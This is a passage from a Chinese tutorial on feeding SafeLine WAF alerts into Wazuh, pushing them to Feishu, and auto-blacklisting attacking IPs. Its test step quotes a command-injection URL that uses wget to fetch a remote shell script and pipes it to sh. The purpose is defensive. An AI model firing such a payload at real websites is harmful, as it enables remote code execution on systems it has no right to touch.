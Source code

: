     ```shell
    vim /var/ossec/etc/ossec.conf ，添加以下配置
    
    <localfile>
        <log_format>syslog</log_format>
        <location>/var/log/waf_alert/waf_alert.log</location>
    </localfile>
    ```

    最后如图

    ![Alt text](/images/docs/submission/operate-19.png)

2. 重启Wazuh Agent，使ossec配置生效

    ```shell
    systemctl restart wazuh-agent
    ```

## 大功告成，测试效果

对网站进行漏扫或者输入攻击测试语句，触发告警，查看拦截结果，例如

https://a.test.com/view.php?doc=11.jpg&format=swf&isSplit=true&page=||wget%20http://spotslfy.com/wget.sh%20-O-|sh

飞书告警卡片，群里的相关人员都可以看到非常清晰的消息卡片

![Alt text](/images/docs/submission/operate-12.png)

雷池WAF IP黑名单，可以看到攻击源IP 47.1.1.1已经自动添加

![Alt text](/images/docs/submission/operate-13.png)

当攻击者想再次尝试访问网站，已经被拦截

![Alt text](/images/docs/submission/operate-14.png)

如果想统计一共封了多少个黑名单IP，可以直接查看日志

cat /var/log/waf/block_ip.log

![Alt text](/images/docs/submission/operate-15.png)

## 发散思维

由于个人精力有限，关于飞书告警其实我还有2个想法没实现，有兴趣和开发能力的同学可以继续探索：

1. 为了避免误封IP，其实推送到飞书的卡片消息可以增加两个交互按钮：“确认封禁IP”，“忽略”，当点击“确认封禁IP”时才触发封禁IP，同时发送一条处置结果到群里做通知。

2. 告警信息推送到飞书群后，现在是无法做统计分析的。飞书多维表格有基础的excel能力以及强悍的自动化流程能力，经过精心的表格字段设计、自动化流程配置和API开发，可以作为低成本的安全数据中心和SOAR使用，例如定期推送安全周报到飞书安全工作群、定期汇总恶意IP清单并推送给安全设备等